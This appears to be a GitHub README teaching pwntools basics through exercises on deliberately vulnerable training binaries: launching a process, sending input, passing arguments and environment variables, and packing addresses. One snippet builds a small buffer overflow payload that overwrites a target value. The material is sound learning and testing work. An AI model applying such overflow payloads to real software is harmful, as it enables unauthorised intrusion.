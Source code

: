 # PWNTools with Examples


<details>
	<summary>:heavy_check_mark: Executing an Application</summary>
	<p>

![img](assets/1-app-exec.png)

- Code
```py
# importing the module
from pwn import *

# specifying the binary location
elf = ELF("./stack0")

# executing the binary
p = elf.process()
```
</p>
</details>


<details>
	<summary>:heavy_check_mark: Providing input for the application and obtaining the output</summary>
	<p>

![img](assets/2-inop-from-app.png)

- Code
```py
from pwn import *
elf = ELF("./stack0")
p = elf.process()

# send input to the application with \r\n at the end
p.sendline(bytes("aaaaaa", 'latin-1')) # need to send in encoded format, since unicode may convert address values to some other characters. 'Latin-1' encoding is used

# recieve the output form the application until the EOF character, $ can be replaced with anything the is a part of the applications output
# p.recvuntil('$') 
# p.recvall() # recives all the output from the application, since the output will be in the format we need to decode it to obtain normal format
print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/2-inop-script.png)

</p>
</details>

<details>
	<summary>:heavy_check_mark: Passing arguments to the application</summary>
	<p>

![img](assets/3-arg-pass.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# procvide the argument in a list format, if there are multiple arguments provide like [arg1, arg2, .....argn]
p = elf.process(['ls'])

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/3-arg-pass-script.png)

	</p>
</details>

<details>
	<summary>:heavy_check_mark: Packing the address</summary>
	<p>

![img](assets/4-address-pack.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# creating a payload which fills the buffer and writes the target address in little endian format
# there are options like p16(), p32(), p64() packing options required for 16bit, 32bit and 64bit binaries respectively
# the p32() is of bytes type so the payload / the characters which will be appeded with the target value must be in bytes format
payload = b"a"*64 + p32(0x61626364)

p = elf.process([payload])
print(str(p.recvall(),'utf-8'))

```

- Script Output
![img](assets/4-address-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Executing with environment variables set </summary>
<p>

![img](assets/5-env-var.png)

- Code
```py
from pwn import *
elf = ELF("./stack2")

# setting environment variable on the executing phase, environment variables takes the dict data type "env={key1:value1, key2:value2,......keyn:valuen}"
p = elf.process(env={"GREENIE":'test'})

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/5-env-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Finding address of a function </summary>
<p>

![img](assets/6-win-address.png)

- Completing the exercise with the found value
![img](assets/6-man-win.png)

</p>
</details>